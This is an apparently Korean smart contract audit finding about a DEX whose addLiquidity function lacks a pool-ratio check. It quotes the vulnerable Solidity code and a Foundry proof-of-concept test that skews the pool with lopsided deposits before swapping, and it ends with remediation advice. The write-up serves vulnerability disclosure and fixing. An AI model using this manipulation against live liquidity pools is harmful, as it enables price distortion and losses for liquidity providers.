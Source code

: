 ## medium - 토큰 유동성 풀의 AMM이 손상되어 비정상적인 가격 변동이 발생할 수 있습니다.

### 설명

./src/Dex.sol: 20-68

addLiquidity(uint256 _amountX, uint256 _amountY, uint256 _minLPreturn) external returns (uint liquidity)

```solidity
		 		uint256 xBefore = tokenX.balanceOf(address(this));
        uint256 yBefore = tokenY.balanceOf(address(this));

        tokenX.transferFrom(msg.sender, address(this), _amountX);
        tokenY.transferFrom(msg.sender, address(this), _amountY);

        uint256 xAfter = tokenX.balanceOf(address(this));
        uint256 yAfter = tokenY.balanceOf(address(this));

        uint256 liquidityBefore = totalSupply();
        uint256 liquidityAfter;

        if (liquidityBefore == 0 || xBefore == 0 || yBefore == 0) {
            liquidityAfter = Math.sqrt(xAfter * yAfter);
        } else {
            uint256 liquidityX = (liquidityBefore * xAfter) / xBefore;
            uint256 liquidityY = (liquidityBefore * yAfter) / yBefore;

            liquidityAfter = (liquidityX < liquidityY)
                ? liquidityX
                : liquidityY;
        }
```

`addLiquidity` 함수에서 인자로 들어온 _amountX, _amountY의 값이 실제 유동성 풀의 토큰 비율과 일치하는지에 대한 검사가 존재하지 않습니다. 

이에 따라 _amountX, _amountY만큼의 토큰이 모두 유동성 풀에 추가되어 유동성 풀 내의 토큰 비율이 손상될 수 있습니다.

### 파급력

Medium - 유동성 공급 비율에 대한 검사가 이루어지지 않아, 공격자가 임의로 토큰 비율을 조정 할 수 있습니다.

```solidity
contract DexScript is Test {
    Dex public dex;
    IERC20 tokenX;
    IERC20 tokenY;

    function setUp() public {
        tokenX = new CustomERC20("X");
        tokenY = new CustomERC20("Y");
        dex = new Dex(address(tokenX), address(tokenY));
        tokenX.approve(address(dex), type(uint256).max);
        tokenY.approve(address(dex), type(uint256).max);

        dex.addLiquidity(800 ether, 700 ether, 0);
    }

    function test_exploit() public {
        
        uint LPReturn1 = dex.addLiquidity(8 ether, 7 ether, 0);
        console.log("LPReturn1: ", LPReturn1);

        uint swap1 = dex.swap(0, 100 ether, 0);
        console.log("swap1: ", swap1);

        
    }

    function test_exploit2() public {
        uint LPReturn2 = dex.addLiquidity(10000 ether, 1, 0);
        console.log("LPReturn2: ", LPReturn2);

        uint swap2 = dex.swap(0, 100 ether, 0);
        console.log("swap2: ", swap2);
    }
}
```

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/dcc66554-0f51-432b-b52f-51edb25200cb/ec12c0d9-35dc-4683-80e5-30f0cdb65145/image.png)

1. 특정 토큰의 유동성 비율을 매우 높거나 낮게 공급하여 토큰의 가격을 조정할 수 있습니다.

### 해결 방안

1. addLiquidity 함수의 인자가 아닌 실제로 추가되어야할 토큰의 양을 현재 유동성 풀의 비율에 대해 계산하여 transfer하는 방법을 사용할 수 있습니다.
    1. amountX, amountY 중 실제로 유동성 풀에 추가될 수 있는 양을 계산 → aX, aY
    2. 아래와 같이, 계산된 토큰의 양을 transferFrom
    `tokenX.transferFrom(msg.sender, address(this), aX);`
    `tokenY.transferFrom(msg.sender, address(this), aY);`
2. reserve 양을 변수로 사용하고, skim 함수를 implement하여 필요한 경우 유동성 풀의 비율을 맞춰줄 수 있습니다.
    
    ```solidity
    function skim(address to) external lock {
            address _token0 = token0; // gas savings
            address _token1 = token1; // gas savings
            _safeTransfer(_token0, to, IERC20(_token0).balanceOf(address(this)).sub(reserve0));
            _safeTransfer(_token1, to, IERC20(_token1).balanceOf(address(this)).sub(reserve1));
        }
    ```
